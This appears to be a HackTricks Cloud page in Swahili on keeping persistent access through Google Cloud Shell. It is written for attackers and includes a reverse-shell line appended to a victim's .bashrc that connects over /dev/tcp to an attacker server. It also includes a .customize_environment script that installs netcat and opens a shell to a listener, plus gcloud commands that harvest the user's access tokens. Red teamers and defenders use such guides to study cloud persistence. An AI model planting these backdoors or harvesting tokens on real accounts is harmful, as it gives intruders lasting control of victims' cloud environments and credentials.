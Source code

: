 # GCP - Cloud Shell Persistence

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Cloud Shell

Kwa maelezo zaidi angalia:

{% content-ref url="../gcp-services/gcp-cloud-shell-enum.md" %}
[gcp-cloud-shell-enum.md](../gcp-services/gcp-cloud-shell-enum.md)
{% endcontent-ref %}

### Persistent Backdoor

[**Google Cloud Shell**](https://cloud.google.com/shell/) inakupa ufikiaji wa amri kwa rasilimali zako za wingu moja kwa moja kutoka kwa kivinjari chako bila gharama yoyote inayohusiana.

Unaweza kufikia Cloud Shell ya Google kutoka **web console** au kwa kukimbia **`gcloud cloud-shell ssh`**.

Konsoli hii ina uwezo wa kuvutia kwa washambuliaji:

1. **Mtumiaji yeyote wa Google mwenye ufikiaji wa Google Cloud** ana ufikiaji wa mfano wa Cloud Shell ulio na uthibitisho kamili (Akaunti za Huduma zinaweza, hata ikiwa ni Wamiliki wa shirika).
2. Mfano huo uta **hifadhi saraka yake ya nyumbani kwa angalau siku 120** ikiwa hakuna shughuli inayoendelea.
3. Hakuna **uwezo wa shirika kufuatilia** shughuli za mfano huo.

Hii kwa msingi inamaanisha kwamba mshambuliaji anaweza kuweka backdoor katika saraka ya nyumbani ya mtumiaji na kadri mtumiaji anavyounganisha na GC Shell kila siku 120 angalau, backdoor itadumu na mshambuliaji atapata shell kila wakati inapoendeshwa kwa kufanya:

{% code overflow="wrap" %}
```bash
echo '(nohup /usr/bin/env -i /bin/bash 2>/dev/null -norc -noprofile >& /dev/tcp/'$CCSERVER'/443 0>&1 &)' >> $HOME/.bashrc
```
{% endcode %}

Kuna faili nyingine katika folda ya nyumbani inayoitwa **`.customize_environment`** ambayo, ikiwa ipo, itakuwa **inasanidi kila wakati** mtumiaji anapofikia **cloud shell** (kama katika mbinu ya awali). Ingiza tu backdoor ya awali au moja kama ifuatayo ili kudumisha uvumilivu kadri mtumiaji anavyotumia "mara kwa mara" cloud shell:
```bash
#!/bin/sh
apt-get install netcat -y
nc <LISTENER-ADDR> 443 -e /bin/bash
```
{% hint style="warning" %}
Ni muhimu kutambua kwamba **wakati wa kwanza kitendo kinachohitaji uthibitisho kinapofanywa**, dirisha la ruhusa linaonekana kwenye kivinjari cha mtumiaji. Dirisha hili lazima likubaliwe kabla ya amri kuweza kuendesha. Ikiwa dirisha lisilotarajiwa linaonekana, linaweza kuleta wasiwasi na huenda likaharibu njia ya kudumu inayotumika.
{% endhint %}

Hii ni dirisha la pop-up kutoka kwa kutekeleza `gcloud projects list` kutoka kwa cloud shell (kama mshambuliaji) lililotazamwa katika kikao cha kivinjari cha mtumiaji:

<figure><img src="../../../.gitbook/assets/image (10).png" alt=""><figcaption></figcaption></figure>

Hata hivyo, ikiwa mtumiaji amekuwa akitumia cloudshell kwa shughuli, dirisha la pop-up halitaonekana na unaweza **kusanya tokens za mtumiaji kwa**:
```bash
gcloud auth print-access-token
gcloud auth application-default print-access-token
```
#### Jinsi muunganisho wa SSH unavyoundwa

Kimsingi, hizi API calls 3 zinatumika:

* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:addPublicKey) \[POST] (itakufanya uongeze funguo yako ya umma uliyounda kwa ndani)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start](https://content-cloudshell.googleapis.com/v1/users/me/environments/default:start) \[POST] (itakufanya uanze mfano)
* [https://content-cloudshell.googleapis.com/v1/users/me/environments/default](https://content-cloudshell.googleapis.com/v1/users/me/environments/default) \[GET] (itakueleza ip ya google cloud shell)

Lakini unaweza kupata taarifa zaidi katika [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)

## Marejeo

* [https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec](https://89berner.medium.com/persistant-gcp-backdoors-with-googles-cloud-shell-2f75c83096ec)
* [https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key](https://github.com/FrancescoDiSalesGithub/Google-cloud-shell-hacking?tab=readme-ov-file#ssh-on-the-google-cloud-shell-using-the-private-key)
* [https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/](https://securityintelligence.com/posts/attacker-achieve-persistence-google-cloud-platform-cloud-shell/)

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
